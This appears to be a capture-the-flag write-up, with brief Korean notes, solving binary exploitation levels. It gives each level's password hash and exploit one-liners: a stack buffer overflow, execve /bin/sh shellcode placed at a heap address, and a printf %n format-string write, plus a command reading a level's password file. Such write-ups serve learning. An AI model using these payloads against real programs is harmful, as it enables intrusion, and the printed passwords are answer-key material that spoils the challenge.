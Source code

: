 > level0 - level0

> level1 - 1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a

```shell
(gdb) print ($ebp + 4) - ($esp + 0x10)
result: 76

$ cat <(python -c 'print "A" * 76 + "\x44\x84\x04\x08",') - | ./level1
cat /home/user/level2/.pass
```


> level2 - 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

```bash
cat <(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + ("A" * 52)  + "\x08\xa0\x04\x08"') - | ./level2
```

대부분의 메모리 영역(스택, 동적 라이브러리)이 0xb???????위치에 존재하는데, 이 위치에서의 실행을 막는 코드가 내장되어있다. 따라서 malloc의 매핑 주소(코드 상의 \x08\xa0\x04\x08 부분)에 shellcode를 주입하는 방식으로 해결

> level3 - 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

printf의 첫 번째 인자가 우리가 직접 넣어줄 수 있는 문자열이다.
따라서 printf의 %n 모디파이어를 이용해서 특정 주소의 쓰기 작업이 가능하다

```bash
cat <(python -c 'print "\x8c\x98\x04\x08%020p%020p%020p%n",') - | ./level3
```

> level4 - b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa

